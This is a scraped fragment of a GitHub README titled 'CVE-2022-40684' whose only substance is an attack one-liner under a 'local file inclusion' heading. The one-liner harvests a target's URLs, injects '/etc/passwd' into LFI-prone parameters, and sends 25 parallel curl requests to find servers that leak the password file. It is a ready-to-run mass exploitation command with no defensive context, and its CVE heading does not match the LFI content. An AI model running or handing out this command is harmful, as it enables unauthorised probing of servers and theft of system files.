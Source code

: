 
 # CVE-2022-40684
<h3 dir="auto"><a id="user-content-local-file-inclusion" class="anchor" aria-hidden="true" href="#local-file-inclusion"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-495 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>@h4x0r_dz</h3>

command
<blockquote>
<p dir="auto">@h4x0r_dz
</blockquote>


<table style="width: 100%;">
    <tbody>
        <tr>
            <td style="width: 100.0000%;">
                <div dir="auto">
                    <pre>gau HOST | gf lfi | qsreplace &quot;/etc/passwd&quot; | xargs -I% -P 25 sh -c &apos;curl -s &quot;%&quot; 2&gt;&amp;1 | grep -q &quot;root:x&quot; &amp;&amp; echo &quot;VULN! %&quot;&apos;</pre>
                </div>
            </td>
        </tr>
    </tbody>
</table>
